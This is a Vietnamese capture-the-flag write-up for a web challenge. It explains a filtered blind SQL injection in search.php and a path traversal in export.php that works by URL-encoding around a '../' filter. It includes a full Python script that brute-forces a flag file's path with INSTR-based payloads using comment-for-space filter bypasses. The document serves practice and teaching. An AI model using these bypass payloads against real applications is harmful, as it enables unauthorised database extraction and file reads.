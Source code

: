 - Describe: 

![alt text](./des.png)

- Phân tích đề bài:

    - Đầu tiên, ta để ý tới file ```"init_flag.php"``` sẽ tạo file flag ở ```"/var/data/flags/flag-<UUID>.txt"``` và chèn 1 row vào table ```"attachments"``` với ```"is_lost=1"```  (filename là **Q2-incident-raw.csv**)

--> Flag thực tế nằm trên filesystem "/var/data/flags/..." và path được lưu trong database và file có dạng: 

```/var/data/flags/flag-xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.txt```

- File ```"attachments.php"``` chỉ hiển thị filename và ```"is_lost"``` chứ không cho ```storage_path```

- File ```"search.php"``` thực hiện truy vấn bằng cách chèn trực tiếp (string-concatenate) nội dung của input vào biểu thức ```RLIKE```:


```$sql = "SELECT id,title FROM cases WHERE title RLIKE '.*$filtered' AND owner_id = :uid LIMIT 1";```

Nhưng trước đó có 1 số filter như:

```python
$q2 = preg_replace('/\s+/u', '', $q);   # Xóa dấu cách (space)
$q2 = preg_replace('/\b(?:or|and)\b/i', '', $q2);    # Filter or, and
$q2 = str_ireplace(["union","load_file","outfile","="], '', $q2);   # Không cho dùng union, load_file, outfile và dấu "="
```

--> Có thể SQLi!

- ```"export.php"``` cố gắng chặn traversal bằng cách xóa chuỗi ```"../"``` khi gặp nó. Nhưng filter này lại được đặt trước khi **urldecode** nên nếu như mà **encode** dấu '/' hay '.' trong chuỗi '../' cái thì coi như filter này làm màu.

--> Workflow để giải bài:

1. Dùng ```"search.php"``` (SQLi) để lấy được file chứa flag trong ```"storage_path"``` của bảng attachments

2. Sau khi có được filename thì **path traversal** để đọc file đó từ ```"export.php"```

- Script lấy file:

```python

import requests
import string
import time
url = "https://dlp.wargame.vn/api/search.php"
cookies = {'PHPSESSID': '81f3c2c9fb4fe7a49a64e44b3d707b07'}
path_to_flag = ""
# initial sliding window (use this instead of mutating prefix itself)
window = "flag"   # your original prefix
# if you meant "flag-" use "flag-" instead
# current_pos left in code for compatibility, but we will use INSTR(... )>0 (recommended)
current_pos = 15
# try a hex-like charset (faster) or keep your original
charset = "abcdef0123456789_-/."
print(f"[*] Bắt đầu brute-force...")
print(f"[*] Window ban đầu: {window}")
print(f"[*] Vị trí bắt đầu (x): {current_pos}\n")
# choose how many chars you want to recover
for i in range(40):
    found = False
    # use window_before so y length stays bounded
    window_before = window
    for char in charset:
        # y is sliding window + candidate char (bounded length)
        y = window_before + char
        # recommended: use >0 (exists) rather than >current_pos; if you insist on >current_pos, keep as before
        raw_payload = f"'&&(INSTR((SELECT/**/storage_path/**/FROM/**/attachments/**/LIMIT/**/1),'{y}')>0)#"
        print(f"[DEBUG] Testing: y='{y}', payload_len={len(raw_payload)}", end='')
        try:
            r = requests.get(url, params={'q': raw_payload}, cookies=cookies, timeout=8)
            try:
                result = r.json()
            except Exception:
                result = {}
            ok = bool(result.get('ok'))
            if ok:
                # append found char to full recovered tail
                path_to_flag += char
                print(" ✓")
                print(f"[+] Tìm thấy: {path_to_flag}")
                # slide the window: drop first char, append found char
                if len(window) > 0:
                    window = (window + char)[1:]
                else:
                    window = char
                current_pos += 1
                print(f"[*] Cập nhật window='{window}', x={current_pos}\n")
                found = True
                break
            else:
                print(" ✗")
        except Exception as e:
            print(f" ERROR: {e}")
        time.sleep(0.08)
    if not found:
        print(f"\n[*] Không tìm thấy ký tự tiếp theo trong charset này.")
        y_txt = window_before + ".txt"
        raw_payload_txt = f"'&&(INSTR((SELECT/**/storage_path/**/FROM/**/attachments/**/LIMIT/**/1),'{y_txt}')>0)#"
        try:
            r = requests.get(url, params={'q': raw_payload_txt}, cookies=cookies, timeout=8)
            try:
                res = r.json()
            except Exception:
                res = {}
            if res.get('ok'):
                path_to_flag += ".txt"
                print(f"[+] Hoàn thành: {path_to_flag}")
            else:
                print("[*] .txt không tồn tại (theo thử window).")
        except Exception as e:
            print(f"[!] Error checking .txt: {e}")
        break
print("\n" + "="*60)
print(f"[RESULT] Path tìm được (tail): {path_to_flag}")
print(f"[RESULT] Full path guess: {window_before + path_to_flag}")  
print("="*60 + "\n")
```

- Sau khi lấy được ```storage_path```, path traversal ở ```/export``` để đọc file này:

![alt text](./get_flag.png)


